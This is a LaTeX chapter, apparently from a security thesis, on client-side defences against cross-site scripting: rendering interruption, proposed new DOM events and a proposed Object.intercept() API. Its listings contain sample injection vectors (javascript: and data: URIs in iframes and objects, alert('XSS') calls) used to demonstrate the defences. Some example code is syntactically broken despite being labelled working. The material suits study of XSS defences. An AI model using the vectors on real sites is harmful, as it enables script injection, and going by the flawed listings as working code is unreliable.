    To find a resolution to this problem, we have developed two approaches. First is a proposition of a new DOM event, discussed in Section~\ref{subsubsec:6.7.1.additional_dom_events}. Second and a more vital achievement was an implementation of a technique allowing our script to be faster than any Iframe of object, despite of the fact that it might utilize JavaScript or Data URIs. Table~\ref{tbl:attacks-using-js-uris} shows an overview of attack vectors this technique is capable of approaching successfully, just a minimal overhead in loading time and page responsiveness is observable. 


\begin{lstlisting}[captionpos=b,label=lst:document-implementation,caption=Working DOM proxy example code using the plaintext interruption technique]
<script type="text/javascript">
(function(){
  var random = Math.random()
  document.write('<plaintext style="display:none" id="'+random+'">');
  var test = document.getElementById(random);
  setTimeout(function(){
    var html = document.implementation.createHTMLDocument('');
    html.body.innerHTML = test.innerHTML;
    for (var i in j = html.querySelectorAll('iframe,object,embed')) {
      try {
	j[i].removeNode(true)
      } catch(e) {}
    }
    var s = document.body.querySelectorAll('script');
    for (var i in s) {
      if(typeof s[i].text !== 'undefined') {
	z+=s[i].text+';\r\n';
      }
    }
    eval(z);
  },0)
)());
</script>
\end{lstlisting}

    The code example in Listing~\ref{lst:document-implementation} demonstrates the approach we chose. The initial idea is inspired by the work of Vela and his publication on Active Content Signatures in 2006~\cite{vela_nava_acs_2006}. After the first benign script tag, we write a \textit{plaintext} element to turn the rest of the document into a simple plain-text representation of the original content. Note that this means a whole-page entity encoding is starting with the injection point of the \textit{plaintext} element. Afterwards we read the content of this \textit{plaintext} element and pass the string to a DOM factory, effectively creating a new DOM. We can now inspect our new creation node by node and check if it contains any Iframe or other suspicious elements, treating the data accordingly to our library's goals. Finally all script tags containing \textit{textContent} are spotted, the \textit{textContent} is extracted and collected. For better performance results, the \textit{innerHTML} data of the inspected DOM is being written to the protected website body. Finally, the plain-text JavaScript is being executed based on the \textit{textContent} collection we have gathered. \\

    This technique of interrupting the DOM rendering flow, creating a DOM tree before any further rendering takes place, inspecting it and then applying it to the existing DOM again is an effective way of gaining full control over a website DOM before it is being rendered by the user agent. This DOM instance can be compared to the W3C suggested Shadow DOM; yet it is not exclusive meant for plain style separation and functional isolation but provides a safe environment for DOM inspections prior to actual rendering~\footnote{W3C, \textit{Shadow DOM}, \url{http://dvcs.w3.org/hg/webcomponents/raw-file/tip/spec/shadow/index.html}, (Feb 2012)}. It must be pinpointed that a timeout of zero seconds suffices here, as we need it just to cause the JavaScript engine to give the parser enough time to build the full document. This is caused by the alternative execution branch created by \textit{setTimeout} -- no actual waiting time is mandatory here. The example shown in Listing~\ref{lst:document-implementation} removes Iframes, objects and embed tags categorically; note though that any other method or analysis or sanitation can be applied instead of \textit{removeNode()}. The whole functionality is wrapped in an anonymous function to prevent other possibly malicious scripts from interfering with the variables used. All tested browsers complied with this technique nicely, as we henceforth demonstrated the universal applicability of our procedure. We do consider this technique a trick to bypass existing limitations. Being able to create a smaller and faster version of our DOM freezing library is our ultimate goal, obtained by specifying new events and DOM proxies discussed in Sections~\ref{subsubsec:6.7.1.additional_dom_events} and \ref{subsubsec:6.7.3.dom_proxies_enabling_whitelists} -- or ultimately the usage of the yet to be fully specified and implemented ECMA Script 6 Direct Proxy features.

    \subsection{Additional DOM Events}
    \label{subsubsec:6.7.1.additional_dom_events}

    The introduction of DOM level 3 events such as \textit{DOMSubtreeModified}, \textit{DOMNodeInserted} or even \textit{DOMNodeInsertedIntoDocument} supplies a protective client-side software with plenty of ways to intercept DOM changes: Even after the \textit{DOMContentLoaded} event has been fired a high level of continuity is being provided. Still, sometimes the available events are insufficient for a seamless protective coat wrapped around the website DOM~\footnote{W3C, \textit{DOM Level 3 Events}, \url{http://www.w3.org/TR/DOM-Level-3-Events/} (Dec 2011)}. In several situations race conditions can emerge and use small time windows to slip past the detection and interception layer.\\

    The current W3C specification flags \textit{DOMSubtreeModified} as obsolete -- essentially having been the event that was used by our IceShield prototype discussed in Section~\ref{subsec:6.5.introducing_iceshield}. This particular event was heavily prone to suffer from race conditions in case an attacker changed the \textit{innerHTML} property of a given element to a value introducing a malicious element, such as an Iframe deploying a JavaScript URI. We compensated for that problem by treating any available HTML element constructor prototype's \textit{innerHTML} stub with an additional setter, guarding any existing and newly created elements from these kinds of attacks. Continuing our research upon completing the work on IceShield, we have discovered that most browsers work as expected with a different event and provide a way to judge a DOM change before committing it to the existing subtrees; this is labeled \textit{DOMNodeInserted}. The code in Listing~\ref{lst:guard-document-content} shows the usage for three edge cases causing problems when used with \textit{DOMSubtreeModified}.\\

    At the time of writing, versions 9 and 10 of Internet Explorer, as well as current Firefox releases and its beta and alpha versions, support the event properly for our intentions and allow the inspection of an element before it actually got added to the DOM. The property we chose for inspection is the event target which allows further inspection of either itself or its child nodes. Chrome and Opera provide support for the event but they do not permit intercepting the creation of the elements as the Iframe applied with a JavaScript URI \textit{src} executes its payload before the event fires. In consequence, we are kept from thorough and proper inspection of the element prior to rendering.

\begin{lstlisting}[captionpos=b,label=lst:guard-document-content,caption=Example code to show how JavaScript URIs in Iframes and similar elements can be handled safely]
<html>
<head>
<script type="text/javascript">
var react = function(e) {
  try{
    if(e.target 
      && (e.target.tagName === 'IFRAME'
	|| e.target.tagName === 'SCRIPT'
        || e.target.tagName === 'OBJECT')) {
	with(e.target)src=data='javascript:""';
    }
  } catch(e) {}	
}
window.addEventListener('DOMNodeInserted', react, false);
</script>
</head>
<body>
<script>
document.body.innerHTML='\
    <object data="javascript:alert(1)"></object>\
    <iframe src="javascript:alert(2)"></iframe>\
    <script defer src="data:,alert(3)"></sc'+'ript>';
</script>
\end{lstlisting}

    The code shown in Listing~\ref{lst:guard-document-content} is visibly compact and provides a thorough change detection for most of the relevant user agents we tested. Luckily, the fact that Chrome and Opera do not provide a chance to win the race against potentially malicious Iframes yet is not hindering our general approach. Let us remind our way around this limitation discussed in Section~\ref{subsubsubsec:6.6.4.1.content_properties}. There, the procedure we utilized with IceShield was to wrap all methods potentially affecting an element's content and define proper setters for the existing and newly created element's content properties. This generates a slight code overhead but is necessary to cover all relevant user agents. Ergo, we propose to either implement a change in the event handling for \textit{DOMNodeInserted} events, or to make sure that no existing implementations will break and no performance implications will appear. This event could be called \textit{DOMBeforeNodeInserted}. With \textit{DOMBeforeNodeInserted}, a user agent would give the developer a chance to react on a forthcoming DOM change \textit{before} it can affect the existing subtrees. As expected, the \textit{event.target} property would contain the unchanged DOM node and its child nodes. Regrettably an attacker could abuse this to cause a denial of service attack prior to the elements' application to the existing DOM. Fortunately, this essentially is almost not different from having the attack occur while and after the elements are being appended. To sum up, no further risk can be drawn from this event in terms of denial of service attacks. Our protective script could then use the event to inspect the target element and its potential child nodes for malicious code and impact suspicious properties by ``nulling'' them, deleting the parent element, or changing them to a harmless and unobtrusive value; undertaking further steps also remains possible.\\

    More importantly, a new event discussed in the following paragraphs could solve a problem we so far approached by the DOM-based control flow interruption trick proposed in Section~\ref{subsubsec:6.7.2.taming_javascript_uris}. At present, none of the user agents we used for testing allowed a deployment of protective code in a time window between full availability of the DOM tree and first deployment of JavaScript URIs in Iframes. Therefore, we interrupted the rendering flow with a \textit{plaintext} element and used a shadowed DOM for inspection with \textit{document.implementation.createHTMLDocument()}. A single event could change that and make our implementation faster and less heavy in regards to lines of code. We have settled on preliminary labeling it \textit{DOMBeforeLoad}, since existing implementations already rely on events called \textit{load}, \textit{unload} and \textit{beforeunload}~\footnote{MDN, \textit{DOM Event Reference}, \url{https://developer.mozilla.org/en/DOM/DOM\_event\_reference} (Dec 2011)}.\\

    The proposed \textit{DOMBeforeLoad} event should be applicable for both the window and the document object, as well as frames and Iframes contained by those. Note that an attacker utilizing the \textit{open()}~\footnote{MSDN, \textit{open Method}, \url{http://msdn.microsoft.com/en-us/library/ms536652(v=vs.85).aspx} (Dec 2011)}, \textit{showModalDialog()}~\footnote{MSDN, \textit{showModalDialog Method}, \url{http://msdn.microsoft.com/en-us/library/ms536759(v=vs.85).aspx} (Dec 2011)}, \textit{showModelessDialog()}~\footnote{MSDN, \textit{showModelessDialog Method}, \url{http://msdn.microsoft.com/en-us/library/ms536761(v=vs.85).aspx} (Dec 2011)}, as well as \textit{showHelp()}~\footnote{MSDN, \textit{showHelp Method}, \url{http://msdn.microsoft.com/en-us/library/ms536758(v=vs.85).aspx} (Dec 2011)} can bypass the execution of the event by creating a new window, which is loading malicious content in the originating domain, with full access to a clone of the parent window object called \textit{opener}. Those methods should therefore be observed and counted as content properties or even ways to evaluate code embedded in strings. Detailed in Section~\ref{subsubsec:6.2.7.string_to_code_and_javascript_eval_methods}, the methods can be successfully monitored by simple overwriting of their parent constructor's prototype. An alternative viable yet more simple label for the \textit{DOMBeforeLoad} event would be \textit{DOMInit}.
    

    \subsection{DOM Proxies Enabling White-Lists}
    \label{subsubsec:6.7.3.dom_proxies_enabling_whitelists}

    The core problem of the aforementioned DOM protection and freezing approaches is the fact that we implicitly use black-lists instead of white-lists. We must assume that the method calls we utilize to acquire the list of DOM methods and properties deliver an incomplete list of host objects. Holistic treatment with our wrapping and access management functionality is therefore at risk. We cannot attempt installing a trusted DOM by fully trusting its existing native properties -- even if no attacker code was executed before or code is being deployed. The prototypic approaches described in Section~\ref{subsubsec:6.7.2.taming_javascript_uris} use an experimental technique to collect as many properties as possible from the current DOM environment by harvesting property names via evaluating  \texttt{Object.getOwnPropertyNames(window).concat(Object.getOwnPropertyNames(\\
    Window.prototype)))}. \\

\begin{figure}[htb]
\centering

\includegraphics[width=0.5\textwidth]{./img/dom-protect-4.pdf}
\caption{DOM proxies are marking the final layer of the protected DOM; They enable a seamless white-list-based sealing approach with low potential for bypassing attack vectors}
\label{fig:dom-protect-4}
\end{figure}

    While this approach should deliver a substantial amount of both enumerable and non-enumerable properties residing in the context of a window, we cannot rest assured that any existing property will be listed by any existing user agent in that manner. A negative example of user agents lacking necessary verbosity include Firefox and other Gecko-based browsers. The problem lies in a performance saving measurement keeping the user agent from returning HTML element constructors other than those actually existing at the exact time of script execution. This effectively keeps us from overwriting any critical constructor prototype property in general, which leaves a substantial hole in our protective coat around the DOM. The following use case describes the basic dilemma behind this unnecessary user agent behavior glitch:

    \begin{itemize}
     %
     \item The protective JavaScript code has to be deployed first. Any other JavaScript or similar technology used on the protected website has to deploy afterwards to prevent an attacker from freezing or overwriting functionality to hinder the protective wrapping from happening. This means we cannot wait until the DOM has finally loaded to obtain all on-page elements and access their HTML element constructors. Essentially, the call to \textit{Object.getOwnPropertyNames(window)} or \textit{Object.getOwnPropertyNames(Window.prototype)} will return a set of HTML element constructors including \textit{HTMLScriptElement}, \textit{HTMLHtmlElement} and, provided they are in place, \textit{HTMLTitleElement} and \textit{HTMLMetaElement}. If the attacker injects a \textit{textarea} and utilizes its \textit{value} attribute, shielding will not be adequate. The \textit{HTMLTextareaElement.prototype.value} property has not been overwritten - since it was simply not available at script runtime.
     %
     \item The possibility to deploy the script right before the closing body tag of a website would fix the problem of having no sufficient visibility over the DOM. It would return the possibility of acquiring necessary HTML element constructors without revealing their names. Nonetheless, this can be abused by an attacker, who strives to inject active code before the protective script tag. Even if no race conditions would strike and cause for instance Iframes applied with JavaScript URIs as a \textit{src} value, destroying the following markup by injecting a \textit{plaintext} element or a \textit{textarea}, Iframe or even applet to deactivate the following markup and with it the protective script tag deploying the necessary DOM wrappers is possible. 
     %
     \item Another option would be to utilize the \textit{DOMContentLoaded} event, formerly a proprietary Mozilla/Gecko event later on adapted by the HTML5 draft specification. This event is now supported by a broad range of user agents and could help fixing the race condition between protective script and elements executing JavaScript via JavaScript URIs or Data URIs, such as Iframes and objects as well as \textit{embed} elements. The difficulty here is, that in most user agents, an Iframe supplied with a JavaScript URI as \textit{src} executes faster and before the event actually fires. Mozilla-based user agents provide some assistance to partly get around this limitation, but solution is both proprietary non-standard and not working as expected. The \textit{DOMFrameContentLoaded} event is supposed to react quicker than JavaScript loaded in an Iframe via \textit{src} attribute, but does not cover object tags nor embed elements so far~\footnote{MDN, \textit{Gecko-Specific DOM Events}, \url{https://developer.mozilla.org/en/Gecko-Specific_DOM_Events#DOMFrameContentLoaded} (Dec 2011)}. Our tests showed that Opera supports the \textit{DOMFrameContentLoaded} event as well.
    \end{itemize}

    None of the other user agents we tested denied access to information on the available HTML element constructors. The problem appears to be limited to the range of Gecko-based browsers. A similar issue was noticed when trying to enumerate the properties attached document and its constructor prototype. The bypass we have developed to get around this limitation is the \textit {createHTMLDocument()} technique described in Section~\ref{subsubsec:6.7.2.taming_javascript_uris}. Calling \texttt{Object.getOwnPropertyNames(window).concat(Object.getOwnPro-\\
pertyNames(Window.prototype)))} on a shadowed DOM will return all necessary constructor prototypes and deliver all information necessary to effectively seal the existing HTML element properties necessary for avoidance of data leakage and arbitrary code execution in a fresh and untreated DOM.\\

    Nevertheless, the core problem persists. Even by uncovering a feasible way to reliably attain all HTML element constructors, our approach has to trust the browser to deliver all other properties for further treatment, having confidence that it is not omitting properties and methods capable of bypassing the protective umbrella we install. In case a certain property or method name is not returned by \textit{Object.getOwnPropertyNames()}, the protective grid is ``bypassable'' and de facto broken. Most of the user agents we tested are yet to eliminate this persevere issue. An example is the \textit{execScript} function available on Internet Explorer, and the \textit{ActiveXObject} or the XML serializer and namespace objects available on Firefox and other browsers. Our experiments demonstrated that most user agents require additional information for sealing all existing properties and managing access properly. This is not blocking or hindering the feasibility of our approach completely, but it makes it harder to write a failure-proof and portable library without raising engineering effort. \\

    We therefore propose the specification and implementation of DOM Proxies. This offers the chance to block access to any existing DOM property and pipe access requests through a proxy function capable to have insight into who attempts to access the property, how the property is being accessed or called, what the parameters of a possible call might look like and what is the nature of the event triggering the access or call attempt. The aforementioned proprietary method \textit{\_\_noSuchMethod\_\_} implemented in Gecko-based user agents depicts how this approach can be brought to life. Any object applied with this method will call it in case a script attempts to access a property that does not exist. The interception process will delegate the access attempt to a function call, which will allow to inspect the parameters: We can retrieve information on the caller, the arguments, and the property name that is being called. The parent property can be extracted by simply accessing the parent node of the \textit{\_\_noSuchMethod\_\_} call itself. Thus, all necessary information to intercept, judge and delegate arbitrary method calls is in our possession.\\

    The difference between this existing functionality and a feature that we could use to properly manage access to arbitrary DOM properties lies in an implementation working regardless of the existence or non-existence of the intercepted properties. We therefore put forward an option to apply any DOM-based object, including global object, with a method called \textit{\_\_intercept\_\_} or ultimately \textit{intercept} -- a method of the object constructor to be applied to any property derived from this native. In combination with the possibility to once define and then seal the interceptor, this sequence of actions would provide a safe bridge between DOM properties and their usage by arbitrary callers and accessors. The following code snippet illustrates the proposed syntax and usage of the intercept functionality. 
    Note that an early implementation of IceShield utilized \textit{\_\_noSuchMethod\_\_}.\\

\begin{lstlisting}[captionpos=b,label=lst:object-intercept,caption=Example code for the proposed Object.intercept() usage syntax]
<!doctype html>
<html>
<head>
  <script type="text/javascript">
    "use strict"
    /**
     * Object.intercept(oInterceptee, fHandler, bInherit)
     * 
     * @param Object   object to intercept properties from
     * @param Function handler to call on interception
     * @param Boolean  inherit interception to added properties - optional, default is true
     */
    Object.intercept(window, function(sName, oTarget, oParameters){
      // get information on acessed property name
      console.log(sName);

      // get refernce to the interception target
      console.log(oTarget);

      // get information on interception parameters
      console.log(oParameters);

    }, true)
  </script>
</head>
...
</html>
\end{lstlisting}
 
    The syntax we propose is notably simple. The method \textit{intercept()} is a property of the constructor \textit{Object} to follow the path the methods for the ES5 object capability enhancements have chosen already; note that introduction of an exclusive DOM object is applicable as well - such as \textit{Intercept()} or \textit{Wrap()}. It also eases and extends the existing documentation and maintains developer confidence by re-using an already well known API. The intercept method requires no more than three parameters per interception. The first parameter \textit{oInterceptee} defines the object for intercepting the access to, including the object itself and any of its existing children. In case the interception process should not be applied for child properties added later, the third parameter \textit{bInherit} can be set to false. Default for \textit{bInherit} is true - meaning child properties will be afterwards intercepted as well. The latter is a substantially important security feature keeping developers from accidentally allowing unmonitored access to properties added later, which could facilitate leaks of sensitive DOM properties. The second parameter \textit{fHandler} represents the handler method to be called as soon as a call, getter or setter access occurs. Since the parent object and all its children would be removed, calling the delete operator on an object will be equivalent to setter access. Thus, it receives write-access in terms of a state change from defined to undefined, or a reset in case a host object is monitored with \textit{Object.intercept()}~\footnote{MDN, \textit{delete}, \url{https://developer.mozilla.org/en/JavaScript/Reference/Operators/Special/delete} (Dec 2011)}. \\

    The \textit{fHandler} parameter specifies the method to be executed as soon as the user agents initiates getter or setter access or registers a call. The \textit{fHandler} method handle can be established as an anonymous function or via function reference. It should be noted that in case a named reference is being used, the developer is advised to seal this property and make sure an attacker cannot overwrite the handle. User agents should notify the developer about this recommendation through a console warning. The user agent can easily determine if the named \textit{fHandler} reference is protected from external access. This can be done by implicitly calling \textit{Object.getOwnPropertyDescriptor} on that handler and evaluating the results accordingly~\footnote{MDN, \textit{getOwnPropertyDescriptor}, \url{https://developer.mozilla.org/en/JavaScript/Reference/Global_Objects/Object/getOwnPropertyDescriptor} (Dec 2011)}.\\ 

    The user agents should use this method derived from a clean host object to avoid compromise. Furthermore, they should make sure that method is not being executed in a privileged context. An attacker could otherwise create a maliciously prepared \textit{fHandler} applied with a malicious getter method using the arguments.callee.caller constructor to execute arbitrary privileged JavaScript and cause operation system level compromise~\footnote{Kouzemtchenko, \textit{XSS-ing Firefox Extensions}, \url{http://kuza55.blogspot.com/2008/07/xss-ing-firefox-extensions.html} (July 2008)}. If an anonymous function is used, no warning should be issued. A console information might be released to inform the developer about the general matter of sealing the \textit{fHandler} method properly.\\

    The \textit{fHandler} method will be called with an overall of three parameters. Those are substantial in guaranteeing a full functionality of a DOM interceptor. They will provide a possibility to get information on the accessed property and determine whether a function call happened. Finally, the array of parameters being used will be unveiled, information on the caller object will be delivered, and most importantly, the target the interception was initiated upon.\\
 
    The following list outlines the specifications of these parameters:\\

    \begin{itemize}
      \item \textbf{sName} The \textit{sName} argument is a string representation of a property to which a call or access has been intercepted. In case \textit{Object.intercept()} has been called upon window and a script tries to access the property \textit{window.document}, the parameter \textit{sName} will be set to the string \textit{document}.
     %
      \item \textbf{oTarget} The \textit{oTarget} property will be a local reference to the object the call or accessor request has been registered for and intercepted. Note that seemingly overlapping information of passing the name as well as the target is desired for security's sake and avoiding an option of attackers creating state shifting objects reacting on name access. \textit{oTarget} can be used to be worked can be employed to work with after the interception has taken place. In case a getter access to \textit{window.document} has been requested by a script, the \textit{fHandler} can decide to either block access or return \textit{oTarget} in a modified or unmodified state. One must be aware that the user agent will have to access an object in its state before \textit{Object.intercept()} was called to avoid recursion. Depending on the \textit{bInherit} parameter for \textit{Object.intercept()} newly added properties will be present or ignored. By default -- \textit{bInherit} being true -- they will be existing.
     %
      \item \textbf{oParameters} The \textit{oParameters} property is of great importance because it can be seen as a literal containing the information necessary for \textit{fHandler} to determine the kind of object access. It is also crucial in deciding whether the access was solicited or not. \textit{oParameters} contains five important properties: \textit{getter}, \textit{setter}, \textit{value}, \textit{caller} and \textit{arguments}. \textit{Getter} and \textit{setter} will provide references to the methods attempting to get or set the property. The content will be a function object giving the developer the possibility to compare the getter with the members of an array of authorized and safe getter methods, just to give one example of its capacities. In case a match exists, the property can be returned and when no match exists, the \textit{fHandler} can react accordingly. The properties setter and value are related. While setter will contain a reference to the function object attempting to set the guarded property, the value will contain an object reference meant to set the property to. This means that in case a script attempts to overwrite \textit{window.document} with the object \textit{evilDocument}, the \textit{getter} property will be \textit{null}, \textit{setter} will contain a reference to the method or event setting the property. If no reference is present, for instance due to a setter access from global scope, the property will be set to \textit{null}. No explicit setter presence indicates illegitimate access in most situations of using an RBAC-based approach. The property \textit{value} will contain the object \textit{evilDocument}; \textit{caller} will be set to \textit{null} and \textit{arguments} will be set to \textit{null} as well. In case the method \textit{window.alert} is to be called with the parameter ``XSS'' by the function \textit{evil}, the caller property will be set to constitute a reference to \textit{evil}, and the \textit{arguments} property will be an array with the first element to be the string ``XSS''. 
     %
    \end{itemize}

    An exemplary use case of \textit{Object.intercept()} - casted on \textit{window} is displayed by the code in Listing~\ref{lst:object-intercept-xmp}. Two separate attempts will be undertaken by the self-executing method \textit{evil()}. The comment blocks above the calls are there to explain how the resulting parameters for \textit{Object.intercept()} and \textit{fHandler} should look like. The example makes use of the apply method of the target property~\footnote{MDN, \textit{apply}, \url{https://developer.mozilla.org/en/JavaScript/Reference/Global\_Objects/Function/apply} (Dec 2011)}. Note that the \textit{target} property reflects the state of the actual target before the interception has been initialized. It can thus vouch for an attacker not having compromised its contents.\\

\begin{lstlisting}[captionpos=b,label=lst:object-intercept-xmp,caption=Example code for real-life Object.intercept() usage; the attacker supplied code in the bottom area will be kept from executing successfully]
<script type="text/javascript">
  "use strict"
  Object.intercept(window, function(name, target, params){
    
    /**
     * Allow overwriting of document only of done by Safe.setter;
     * Allow overwriting only if value is an instance of Document;
     */
    (name === 'document' && params.setter !== Safe.setter 
      && params.value instanceof target.constrcutor) ?
      
      return 'blocked access' : return (target = params.value)

    /**
     * Allow call to alert only if performed by Safe.alert;
     * Allow call to alert only if argument is not the string XSS;
     */
    (name === 'alert' && params.caller !== Safe.alert 
      && params.arguments[0] !== 'XSS') ?
      
      return 'blocked call' : return (target.apply(arguments))
  }, true)

  // evil script
  (function evil(){
    document=null // kill document
    alert('XSS') // nag the user
  })()
  
</script>
\end{lstlisting}    

    It is worth noting that \textit{Object.intercept()} feature can be employed not only to create a white-list-based, robust, easy to use and comprehend client-side protection layer and RBAC enforcement system, but it can also be of great advantage for debugging purposes. A developer does not have to rely on proprietary or user-agent integrated debugging tools. Instead, the developer can implement a AOP-like debugging and logging architecture by simply intercepting access and calls to the desired parts of the code, subsequently monitoring the callers, parameters and setter/getter information. Furthermore, security professionals can use this technique as a foundation for DOM-based vulnerability scanners, following execution flows more easily and solving problems with pure JavaScript that formerly required usage of complex browser extensions and customizations such as DOMinator created by Paola and colleagues~\footnote{Di Paola, \textit{DOMinator Project}, \url{http://code.google.com/p/dominator/} (Sept 2011)}.\\
    
  \section{Conclusion}
  \label{subsec:6.8.conclusion}

    We have provided overpowering and high quality evidence that XSS mitigation does not necessarily have to be related to thwarting the vulnerability, but may instead hinder the exploit code being carried out properly. Furthermore, we propose two similar approaches based on PFI and tokenized HTML elements. They have a proven potential of making it difficult or even impossible for an attacker to execute arbitrary JavaScript code and access sensitive DOM assets. Such a statement holds up even when the attacked website filters no user input whatsoever. Our community-driven evaluation underlines the feasibility of the approach we propose. It is noteworthy that the combined knowledge of army-like group of penetration testers could only generate few dozens of actual bypasses. What makes it even more coveted is that we managed to get the vast majority of those problems fixed during the time when the challenge was still up and running. \\

    Although we are well aware that our implementation at its current state is fragile, we are certain that defeating an attack on the exact layer where it happens is the right way to go, especially for tackling the XSS attacks. A client-side XSS mitigation library is not affected by impedance mismatches nor attack obfuscation; it awards the protective library with a visibility that a server-side solution cannot have; even highly optimized user agent-based XSS filters often do not possess~\footnote{Heiderich, \textit{Comment \#6 XSSAuditor bypasses from sla.ckers.org}, \url{https://bugs.webkit.org/show_bug.cgi?id=29278#c6} (Aug 2010)}. Our implementation is slim, fast, does not cause significant computation costs for a website owner, nor does it rely on a classic client-server model for a successful deployment, which makes its competition pale in comparison. Upcoming security solutions, such as CSP and sand-boxed Iframes, deliver more possibilities to harden our prototypic implementations and ease both usage and deployment for the website owners. The addition of the two new items we here-proposed to modern user agents are crucial in making our approach implementable in a more elegant, neat and comprehensive way. \\

    The feasibility of this approach relies on four important criteria that all have to be met. Those have been discussed in previous sections and were exemplified in Section~\ref{subsubsec:6.6.3.javascript_and_dom_based_rbac} and Section~\ref{subsubsubsec:6.6.4.2_event_control}. Once again, let us draw your attention to a conclusive and compact list or requirements for future and significantly more robust versions of our implementation:

    \begin{itemize}
      %
      \item \textbf{Tamper resistance of trusted properties} We can accomplish them by using the ECMA Script 5 object extensions. This allows to define accessor properties, value and access permissions for an object; this including host objects. By sealing and freezing those, we can ultimately make sure that an attacker cannot interfere with the value and accessors of a given object. This means that if JavaScript code arranging the aforementioned object properties executes before any attacker content can be called, that given object can be considered trusted.
      %
      \item \textbf{Safe identification of object properties} Being able to identify an object and its type, constructor and origin is crucial for a browser-based RBAC system capable of managing access privileges to DOM properties. We established a safe getter based on cloning a clean property. This was obtained by means of storing the clone and cloned object inside a closure system to avoid exposure, deleting the clean property, and finally performing comparisons between the accessor and the stored clean object. This method has proven safe against tampering approaches. For this process to succeed, the attacker cannot execute code before the protective code has been deployed and executed.
      %
      \item \textbf{Taming non-HTTP URI resources} The integrity of a trusted DOM can only be assured if attacker cannot create a fresh DOM on the affected domain. Most user agents allow Iframes and similar objects linked to data and JavaScript URIs to create a fresh DOM. This can be eliminated by a pre-flight inspection performed via \textit{document.implementation}. The trusted DOM can scan all existing elements and certify that no occurrence of malicious Iframes appear. The approach works reliably on all modern user agents. Note that a different approach of taming non-HTTP resources has been scrutinized in Section~\ref{subsubsec:6.7.2.taming_javascript_uris}. The approach of utilizing \textit{document.implementation} is being described in more extensive detail by Heiderich et al. in a 2012 publication on ending XSS attacks~\cite{heiderich2012hedgehog}.
      %
      \item \textbf{Continuous DOM surveillance} Without continuous monitoring for DOM modifications, an attacker might find a way to inject malicious code after the initial configuration and pre-flight inspection have been performed by the trusted DOM library. This can be mitigated by having a DOM event, such as the successors of \textit{DOMSubTreeModified}, watch for modifications and change the results of the modification in case that suspicious changes have been requested. 
    \end{itemize}

    The vast majority of modern user agents comply and operate in line with those requirements. Nevertheless, to be able to build a further developed and more robust prototype, we would require two more features available in the browsers DOM. These have been outlined in detail in Section~\ref{subsubsec:6.7.3.dom_proxies_enabling_whitelists}. For that reason, despite of already major contribution of our research, success of future efforts in creating an ultimately client-side solution to defeat XSS is at present unknown. We highlight further research potential, the creation of more advanced prototypes, and a first possible browser's extension-supported implementation of \textit{Object.intercept()}. We would like to once again underscore the importance of initiating communication with the browser vendors, so that the bugs, which are making the implementation in current releases cumbersome and complicated, can be eradicated. The involvement with the recently invoked Web Application Security Working Group of the W3C is one of the milestones for our further engagement with this topic. We strongly believe that an attack targeting the client should be approached on the client-side. Our research over the past year in right on point attack obfuscation, mitigation bypasses, plug-ins and browser vulnerabilities as well as DOMXSS underlines the necessity of this attempt. Furthermore, the development tendencies for ECMA Script 6 and especially Direct Proxies and their planned capabilities heavily support the feasibility and real-life applicability for a DOM-based protection library and many related projects spawning from the foundations delivered by our research.